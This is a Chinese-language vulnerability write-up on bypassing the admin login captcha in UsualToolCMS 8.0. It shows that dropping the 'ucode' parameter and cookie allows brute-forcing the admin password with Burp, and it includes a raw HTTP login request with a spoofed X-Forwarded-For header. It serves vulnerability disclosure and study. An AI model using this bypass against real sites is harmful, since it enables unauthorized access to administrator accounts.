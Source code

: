 UsualToolcms 8.0 绕过后台验证码爆破
===================================

一、漏洞简介
------------

可通过删除验证码参数，进行暴力破解

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

漏洞点:<http://0-sec.org/cmsadmin/>

后台登陆时默认需要输入验证码，但是当我把验证码的参数ucode删除时，登陆依然成功

### 1.默认情况下登陆数据包

![](./resource/UsualToolcms8.0绕过后台验证码爆破/media/rId26.png)

![](./resource/UsualToolcms8.0绕过后台验证码爆破/media/rId27.png)

删除ucode参数和cookie后登陆，直接登陆成功

![](./resource/UsualToolcms8.0绕过后台验证码爆破/media/rId28.png)

通过burp爆破后台密码

![](./resource/UsualToolcms8.0绕过后台验证码爆破/media/rId29.png)

![](./resource/UsualToolcms8.0绕过后台验证码爆破/media/rId30.png)

    POST /UsualToolCMS/cmsadmin/a_login.php?do=login HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_login.php
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 23

    uuser=admin&upass=admi
